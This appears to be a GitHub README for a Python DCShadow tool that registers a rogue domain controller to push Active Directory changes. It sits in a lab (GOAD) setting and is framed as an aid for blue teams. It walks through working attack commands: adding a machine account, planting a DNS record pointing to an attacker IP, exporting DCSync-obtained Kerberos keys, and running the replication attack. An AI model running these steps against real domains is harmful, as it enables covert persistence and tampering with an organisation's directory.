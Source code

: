> [!WARNING]
> DO NOT RUN IN PRODUCTION. This is meant for lab testing, for blue teams to work on identifying IoCs, event types, and behavior.
> Also, this tool is provided as-is. No support is planned apart from standard review or pull requests you may want to create. 
> Don't run this from a Windows host. Do it from linux, or from a VM (to avoid RPC services conflicts).

# Theory

This project is meant to be a pure-python alternative to Mimikatz's dcshadow technique. This includes a custom Impacket with modified `crypto`, `gssapi` and `drsuapi` among other things. 

[DCShadow](https://www.thehacker.recipes/ad/persistence/dcshadow/) is a powerful persistence technique that could be considered as a transport for other techniques such as [SID history](https://www.thehacker.recipes/ad/persistence/sid-history), [KRBTGT RBCD](https://www.thehacker.recipes/ad/persistence/kerberos/delegation-to-krbtgt), [ACE abuse](https://www.thehacker.recipes/ad/persistence/dacl), and more.

This tool could be a foundation for a more versatile AD pertistence framework, that could be used by our community to raise our global maturity on the matter.

This tool was tested on [GOAD](https://github.com/Orange-Cyberdefense/GOAD).

# Hands-on

## 0. Install

```bash
python3 -m venv venv
source ./venv/bin/activate
pip3 install -r ./requirements.txt
pip3 install ./impacket
```

## 1. Create machine account

This machine will be registered as a domain controller for the duration of the replication, and will be unregistered at the end.

```bash
venv/bin/addcomputer.py -computer-name 'fake701$' -computer-pass '123soleil!' -method LDAPS -dc-host "kingslanding.sevenkingdoms.local" -dc-ip "192.168.10.10" -domain-netbios "sevenkingdoms" "sevenkingdoms.local"/"tyron.lannister":"Alc00L&S3x" -debug
```

> [!WARNING]
> adcomputer.py is modified to set `msDS-SupportedEncryptionTypes` to `0x1f`. Latest tests seem to raise a constraint violation.
> ```
> [+] Impacket Library Installation Path: /workspace/adpersist/venv/lib/python3.11/site-packages/impacket
> Traceback (most recent call last):
>  File "/workspace/adpersist/venv/bin/addcomputer.py", line 248, in run_ldaps
>    raise Exception(str(ldapConn.result))
> Exception: {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> [-] {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> ```
> For now, use the regular addcomputer.py script from Impacket, and modify `msDS-SupportedEncryptionTypes` manually through ADSI edit.

## 2. DNS entry for the machine

This is needed for the legit DC to know how to reach the rogue DC and avoid `ERROR_DS_DNS_LOOKUP_FAILURE` errors.

```bash
dnstool.py -u "sevenkingdoms.local"/"tyron.lannister" -p "Alc00L&S3x" --record 'fake701' --action add --data "$ATTACKER_IP" "kingslanding.sevenkingdoms.local"
```

> [!INFO]
> If the command doesn't work for some reason, add the DNS entry manually through the DNS tools on the domain controller.

## 3. Rogue DC credentials

When we started developping this tool, we were using hardcoded credentials in an .env file, loaded in the `gss_kerberos_ap_req` function in the `dcshadow/utils/server/RpcServer.py` file.

This clearly needs an upgrade. The password of the rogue DC account could be passed as CLI argument and kerberos keys calculated. Krbrelayx does that already, dacledit.py as well, it needs copy-pasting.

For now you need to export the Kerberos keys as environment variables.

It should look like this:

```
export RC4=652c1be004ef335aa218cfed8e9297fc
export AES128=710b676a1fec1c68edc44b759aace44a
export AES256=bc7564c2e7a2bc740c277ec39f8c5d81e03df8001b7d670f5b46c177242a8bbc
```

Those keys can be retrieve with through a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) attack.

## 4. DCShadow (JSON file)

```bash
python3 dcshadow.py --json repl.json --domain "sevenkingdoms.local" --user "cersei.lannister" --password "il0vejaime" --dc-ip "192.168.10.10" --legit-dc-fqdn "kingslanding.sevenkingdoms.local" --rogue-dc-name "fake701"
```

> [!TIP]
> In this case, a `repl.json` file is used to specify the target objects and attributes. Alternatively, the tool supports inline options (e.g., `--object`, `--attribute`, and `--value`). 

# Common errors

## DRSReplicaAdd: timed out

If the DRSReplicaAdd times out, it probably is a networking/firewall issue on the machine running dcshadow.py (the rogue DC), that's probably not allowing incoming trafic on 135/TCP (epmapper) and 1337/TCP (or dynamic port if implemented in the future, for drsuapi)

## DRSReplicaAdd: rpc_s_access_denied

You'd need to run Wireshark on the legit domain controller, but the most probably root cause is you're trying to run this on a Windows machine, meaning when the legit DC asks your rogue DC's epmapper for the port of the drsuapi endpoint, the answer is empty since it's your own windows machine's epmapper that's responding and not our custom one. 

# Credits

Credits go to Benjamin Delpy and Vincent Letoux for the initial discovery, talks, and implementation in Mimikatz.

This project wouldn't have been possible without the immense help of Alessandro Iandoli, a talented researcher met during the development. Thank you Alessandro!

I'd like to thank Volker as well, who took part in the early development.

Thanks to Dramelac for the help in going for PoC to modular project, a foundation for a future framework, if it ever goes there.
